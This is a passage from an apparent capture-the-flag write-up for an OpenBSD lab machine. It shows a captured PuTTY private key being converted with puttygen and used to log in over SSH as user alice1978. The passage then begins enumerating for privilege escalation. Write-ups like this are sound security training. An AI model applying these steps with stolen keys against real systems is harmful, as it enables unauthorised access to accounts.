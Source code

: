
However, to make use of this against an OpenBSD target (or Linux target), I’ll
need to convert it to OpenSSH format. To do that, I’ll use `puttygen`, which I
can install with `apt install putty-tools`. Then I’ll call `puttygen`, telling
it that the output should be a private openssh formatted key (`-O`) and
outputting the result to a file (`-o`) :

    
    
    root@kali# puttygen my_private_key.ppk -O private-openssh -o alice.pem
    
    root@kali# file alice.pem
    my_private_key: PEM RSA private key
    

### Shell as alice1978

Now I can connect as alice1978 using that key and get a shell, and user.txt:

    
    
    root@kali# ssh -i alice.pem alice1978@10.10.10.107
    OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018
    
    Welcome to OpenBSD: The proactively secure Unix-like operating system.
    
    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.
    
    ypuffy$ id
    uid=5000(alice1978) gid=5000(alice1978) groups=5000(alice1978)
    ypuffy$ ls  
    user.txt windir
    ypuffy$ cat user.txt
    acbc06eb...
    

## Privesc: alice1978 –> root

### SSH Enumeration

Right away I notice that there’s no `.ssh` directory in `/home/alice1978`.
Given that I just logged in with ssh keys, how is that possible?

    
    
    ypuffy$ pwd
    /home/alice1978
    ypuffy$ ls -la
    total 40
    drwxr-x---  3 alice1978  alice1978  512 Jul 31 23:16 .
    drwxr-xr-x  5 root       wheel      512 Jul 30 21:05 ..
    -rw-r--r--  1 alice1978  alice1978   87 Mar 24  2018 .Xdefaults
    -rw-r--r--  1 alice1978  alice1978  771 Mar 24  2018 .cshrc
    -rw-r--r--  1 alice1978  alice1978  101 Mar 24  2018 .cvsrc
    -rw-r--r--  1 alice1978  alice1978  359 Mar 24  2018 .login
    -rw-r--r--  1 alice1978  alice1978  175 Mar 24  2018 .mailrc
    -rw-r--r--  1 alice1978  alice1978  215 Mar 24  2018 .profile
    -r--------  1 alice1978  alice1978   33 Jul 30 22:40 user.txt
    drwxr-x---  2 alice1978  alice1978  512 Jul 30 22:54 windir
    